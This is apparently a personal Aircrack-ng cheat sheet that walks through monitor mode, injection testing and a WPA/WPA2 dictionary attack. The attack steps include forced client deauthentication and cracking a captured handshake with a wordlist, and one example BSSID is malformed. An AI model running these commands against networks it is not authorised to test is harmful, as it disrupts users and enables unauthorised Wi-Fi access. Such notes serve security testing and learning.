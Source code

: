 # Aircrack-ng

## General

Show interfaces, chipsets and drivers:


```bash

airmon-ng

```

Start monitor mode on specific interface (network card):


```bash

sudo airmon-ng start wlx0008caa46de5

```


Start packet capture on specific interface (network card):

```bash

sudo airodump-ng wlx0008caa46de5

```

Test packet injection and quality:

```bash

sudo aireplay-ng --test wlan0mon

```

Crack a WEP or WPA key without user intervention and collaborate with WPA cracking statistics:

```bash

besside-ng

```

## Tests

### Test capabilities (monitor mode and package injection)

- start monitor mode for specific wi-fi interface (`wlan0` - wi-fi interface from `iwconfig` list):

```bash

sudo airmon-ng start wlan0

```
- unblock (from soft block) wi-fi interfaces if needed (optional):

```bash

sudo rfkill unblock all

```

- test capabilities (`wlan0mon` - new wi-fi interface which should appear after monitor mode was enabled during previous step):

```bash

sudo aireplay-ng --test wlan0mon

```

## Attacks

### WPA/WPA2 Dictionary Attack

- find out the BSSID of the access point;

- decide on the wordlist that should be used for the attack;

- capture a legitimate user connecting to the access point;

- generate the authentication traffic;

- capture a legitimate user connecting to the access point;

- execute the dictionary attack;

#### Method 1 (not complete) - steps

- find virtualized Kali Linux LAN adapter that were successfully bridged to current device using `iwconfig`;

- turn off LAN adapter using `sudo ifconfig wlan0 down`;

- put LAN adapter into 'monitor mode' using `sudo iwconfig wlan0 mode monitor`;

- turn on LAN adapter using `sudo ifconfig wlan0 up`;

- confirm that LAN adapter is in 'monitor mode' using `iwconfig`;

- find the BSSID and chanel of the access point using `sudo airodump-ng wlan0`;

- capture the 4-way authentication handshake for the AP: `sudo airodump-ng --bssid 00:11:22:33:44:55:66 --channel 1 --write wepcracking wlan0`;

- crack the password using following command: `sudo aircrack-ng wepcracking-01.cap` (`wepcracking-01.cap` - file which were generated by previous command);

#### Method 2 (complete, tested) - steps

- find virtualized Kali Linux LAN adapter that were successfully bridged to current device using `iwconfig`;

- turn off LAN adapter using `sudo ifconfig wlan0 down`;

- put LAN adapter into 'monitor mode' using `sudo iwconfig wlan0 mode monitor`;

- turn on LAN adapter using `sudo ifconfig wlan0 up`;

- confirm that LAN adapter is in 'monitor mode' using `iwconfig`;

- find the BSSID and chanel of the access point using `sudo airodump-ng wlan0`;

- capture the 4-way authentication handshake for the AP using `airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0`;

- deauthenticate the wireless client in order to capture the handshake (may need to run multiple times, optional step) using `aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0`;

- crack the password using dictionary using `aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap`;

#### Notes

WPA/WPA2 supports many types of authentication beyond pre-shared keys. Aircrack-ng can ONLY crack pre-shared keys. So make sure airodump-ng shows the network as having the authentication type of PSK, 
otherwise, don't bother trying to crack it. Only plain brute force techniques can be used against WPA/WPA2. 

